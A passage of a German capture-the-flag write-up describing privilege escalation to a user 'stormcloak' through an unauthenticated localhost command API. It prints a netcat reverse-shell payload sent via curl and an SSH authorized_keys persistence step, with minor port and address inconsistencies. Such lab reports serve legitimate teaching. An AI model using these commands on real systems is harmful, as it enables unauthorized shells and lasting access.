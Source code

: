 Da der Code zur Webshell im Benutzerverzeichnis liegt (`/home/stormcloak/webshell`), ist davon auszugehen, dass der Service mit anderen Benutzerrechten läuft als `www-data`. Sollte der Service verwundbar sein, ist somit eventuell eine Privilege Escalation zum Benutzer Stormcloak möglich.

Eine POST-Request an `/api/v1/command` erlaubte nun die Ausführung von Befehlen, da die Request mit der reverse-Shell von localhost aus ausgeführt werden konnte.
Wie in der JS-Datei entdeckt wurde, muss der parameter `validated=1`gesetzt werden. Ansonsten wird die Request zurückgewiesen. Ein Beispiel mit dem Befehl `id` sieht daher so aus:

```.shell!
curl localhost:3000/api/v1/command -X POST -d "command=id&validated=1"
```

### Reverse-Shell mit `curl`

Der nächste Schritt ist nun mit dem POST-Parameter im `curl`-request eine reverse-Shell aufzubauen. In dieser zweiten reverse-Shell sollten dann alle Rechte vom Benutzer stormcloak zur Verfügung stehen. Die reverse-Shell kam dieses mal mit dem Tool `netcat` von beiden Seiten aus zustande.

1. Starten von `netcat`-listener auf `192.168.22.65:9002`:

```.shell!
nc -lvnp 9002
```

2. Erneute reverse-Shell via `curl`:

```.shell!
curl localhost:3000/api/v1/command -X POST -d "command=nc+-e+/bin/bash+192.168.22.65+9003&validated=1"
```

Dabei sei zu beachten, dass alle Leerzeichen durch +-Zeichen ersetzt werden müssen, damit beim web-request nichts falsch interpretiert wird.

**Resultat:** Erfolgreich, Zugriff als Benutzer stormcloak.
**Gefundenes Flag:** User Flag 'user.txt'.


\newpage

### SSH-Access für eine stabile Verbindung einrichten.

1. SSH Key Pair generieren auf der lokalen Kali-VM:

```.shell!
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
```

2. Public Key `id_rsa.pub` auf der Zielmaschine `192.168.22.65` hinzufügen.

```.shell!
echo "<public_key>" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

3. Über `ssh` mit `stormcloak@192.168.22.65` verbinden.

```.shell!
ssh stormcloak@192.168.22.65
```
